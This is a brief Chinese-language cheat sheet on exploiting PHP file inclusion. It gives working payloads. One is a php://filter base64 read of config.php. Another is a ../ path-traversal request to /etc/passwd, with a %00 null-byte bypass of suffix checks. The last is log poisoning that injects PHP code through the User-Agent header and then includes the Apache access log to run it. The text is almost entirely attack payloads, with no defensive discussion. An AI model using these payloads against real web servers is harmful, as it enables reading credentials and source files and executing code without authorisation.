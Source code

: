 ## php://filter

```
php://filter/convert.base64-encode/resource=config
```

利用 `php://filter` 的 `convert.base64-encode` 过滤器将目标文件内容转换为Base64编码后输出，绕过PHP解析器的直接执行，从而读取敏感文件（如配置文件、源码）。  
​**​示例Payload​**​：  
`php://filter/convert.base64-encode/resource=config.php`



## 直接路径遍历读取​**​

​**​原理​**​：通过构造路径穿越符（如 `../`）访问服务器本地敏感文件。  

```http
http://target.com/index.php?file=../../../../etc/passwd
```

- 目标文件路径已知且未限制用户输入路径（如配置文件、数据库凭证）。  
    ​**​防御绕过​**​：
- 使用空字节截断（如 `%00`）绕过后缀检查（旧版本 PHP 有效）


## 日志文件注入读取​​

​**​原理​**​：通过 HTTP 请求头（如 User-Agent）注入恶意代码到日志文件，再包含日志文件获取内容。  
​
```http
http://target.com/index.php?file=/var/log/apache2/access.log
```

1. 注入 PHP 代码到日志：`User-Agent: <?php phpinfo(); ?>`
2. 包含日志文件触发代码执行或读取日志内容
